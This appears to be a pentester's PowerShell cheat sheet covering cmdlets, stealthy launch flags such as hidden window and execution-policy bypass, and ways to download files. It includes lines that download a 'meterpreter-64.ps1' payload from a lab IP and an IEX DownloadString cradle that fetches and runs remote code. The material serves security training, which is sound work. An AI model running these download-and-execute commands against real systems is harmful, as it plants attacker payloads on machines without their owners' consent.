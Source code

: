 # Powershell

In short, "PowerShell is a cross-platform task automation solution made up of a command-line shell, a scripting language, and a configuration management framework. PowerShell runs on Windows, Linux, and macOS." There is a comprehensive document [here](https://docs.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.2), on Microsoft website.

There is also a brief [Introduction to powershell](https://docs.microsoft.com/en-us/learn/modules/introduction-to-powershell/) course.

Microsoft has a free course on Introduction to Powershell [here](https://docs.microsoft.com/en-us/learn/modules/introduction-to-powershell/) on their website. Information on [about\_Powershell.exe](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about\_powershell\_exe?view=powershell-5.1\&viewFallbackFrom=powershell-7.2).

We can run powershell from the Start Menu by searching for it, through the command prompt by running `powershell.exe`, or through the run dialogbox(`windows key+r`) and running `powershell.exe`

## Commands

* `IEX` OR `Invoke Expression`
  * The `Invoke-Expression` cmdlet evaluates or runs a specified string as a command and returns the results of the expression or command. Without `Invoke-Expression`, a string submitted at the command line is returned (echoed) unchanged.

## Arguments

* `-NoP` OR `-NoProfile`
  * When you launch PowerShell with NoProfile parameter, it ensures to run script in default PowerShell environment and run without any Windows PowerShell profile. Does not load the Windows PowerShell profile.
  * powershell.exe -NoP
* `-NonI` OR `-NonInteractive`
  * Does not present an interactive prompt to the user.
* `-W Hidden` OR `-WindowStyle Hidden`
  * Sets the window style to Normal, Minimized, Maximized or Hidden.
* `-Exec Bypass` OR `-ExecutionPolicy Bypass`
  * Sets the default execution policy for the current session and saves it in the `$env:PSExecutionPolicyPreference` environment variable. This parameter does not change the Windows PowerShell execution policy that is set in the registry.
* `-Enc` OR `-EncodedCommand`
  * Accepts a base-64-encoded string version of a command. Use this parameter to submit commands to Windows PowerShell that require complex quotation marks or curly braces.

## Cmdlet

A cmdlet is a lightweight command that is used in the PowerShell environment. The PowerShell runtime invokes these cmdlets within the context of automation scripts that are provided at the command line. Cmdlets perform an action and typically return a Microsoft .NET object to the next command in the pipeline. A cmdlet is a single command that participates in the pipeline semantics of PowerShell. This includes binary (C#) cmdlets, advanced script functions, CDXML, and Workflows.

A cmdlet is simply a command through which you can perform an action. The two most helpful cmdlets that everyone should be aware of are:

* Get-Command
* Get-Help

Using the cmdlet ‘Get-Command’, you can find all the available cmdlets even if you do not know the exact cmdlet. For example, you want to restart a service from PowerShell, but you do not know the cmdlet. Although you can assume that it may contain the word ‘service’.

Common verbs:

* Get
* Start
* Stop&#x20;
* Read
* Write
* New
* Out

Full list of approved verbs can be found [here](https://docs.microsoft.com/en-us/powershell/scripting/developer/cmdlet/approved-verbs-for-windows-powershell-commands?view=powershell-7).

## Commands

* `Get-Help` shows information about a cmdlet_._ `Get-Help Command-Name`
* `Get-Command` - Gets all the cmdlets installed on the current Computer. This cmdlet allows for pattern matching such as `Get-Command Verb-*` or `Get-Command *-Noun`
* `The Pipe( | )` - Used to pass output from one cmdlet to another. Eg. `Verb-Noun | Get-Member`&#x20;
* `Invoke-Webrequest` - Makes a request to a webserver. Sends HTTP and HTTPS requests to a web page or web service. It parses the response and returns collections of links, images, and other significant HTML elements. More info can be found [here](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2).
  * Download a file: `Invoke-WebRequest -URI http://(IP):(PORT)/(FILE) -Outfile (FILE)`
  * `Invoke-WebRequest "URL/File" -OutFile "File"`
    * `Invoke-WebRequest "http://10.0.2.8/meterpreter-64.ps1" -Outfile "meterpreter.ps1"`
* `Invoke-Expression` - Evaluates or runs a specified string as a command and returns the results of the expression or command. Without `Invoke-Expression`, a string submitted at the command line is returned (echoed) unchanged.
* `(New-Object System.Net.WebClient)DownloadFile('URL/File', 'Output-File')`
  * `(New-Object System.Net.WebClient)DownloadFile('http://10.0.2.8/meterpreter-64.ps1', 'meterpreter.ps1')`
* `Get-Hotfix` - Enumerate already installed patches
  * `Get-Hotfix | Format-list | findstr InstalledOn`
  * `Get-Hotfix | Format-Table HotFixID`
* `Format-List` - Used to gather more information about objects
  * `dir | Format-List`
* `Out-File` - Used to save the output to a file for further use
  * `Get-Hotfix | Out-File Hotfixes.txt`
* `Start-Process` - Used to start a process, such as notepad.
* `Get-Process` - Lists all running processes. Can also be used with the `-name` parameter to filter for a specific process
* `(command) | Export-Csv` - Exports the Previously piped command into a .CSV file that may be easier to read.
* `Get-Content` - Shows the contents of a file. Similar to the `cat` command on linux.
* `Copy-Item` - Copies and item
* `Move-Item` - Moves and item
* `Get-FileHash` - Obtains file hash of specified file

## Arguments

* `-NoP` OR `-NoProfile`
  * When you launch PowerShell with NoProfile parameter, it ensures to run script in default PowerShell environment and run without any Windows PowerShell profile. Does not load the Windows PowerShell profile.
  * powershell.exe -NoP
* `-NonI` OR `-NonInteractive`
  * Does not present an interactive prompt to the user.
* `-W Hidden` OR `-WindowStyle Hidden`
  * Sets the window style to Normal, Minimized, Maximized or Hidden.
* `-Exec Bypass` OR `-ExecutionPolicy Bypass`
  * Sets the default execution policy for the current session and saves it in the `$env:PSExecutionPolicyPreference` environment variable. This parameter does not change the Windows PowerShell execution policy that is set in the registry.
* `-Enc` OR `-EncodedCommand`
  * Accepts a base-64-encoded string version of a command. Use this parameter to submit commands to Windows PowerShell that require complex quotation marks or curly braces.

## Download files

*   Invoke-WebRequest http://`(IP)`:(PORT)/(FILE) -Outfile (Outputfile)

    * Invoke-WebRequest -URI http://192.168.1.52:8000/test.txt -Outfile Downloaded.txt



![](<../../.gitbook/assets/image (20).png>)

* "IEX (New-Object Net.WebClient).DownloadString('URL')"
  * IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.52:8000/test.txt')

## Additional resources

[TryHackMe Hacking With Powershell](https://tryhackme.com/room/powershell)

[TryHackme Powershell for Pentesters](https://tryhackme.com/room/powershellforpentesters)
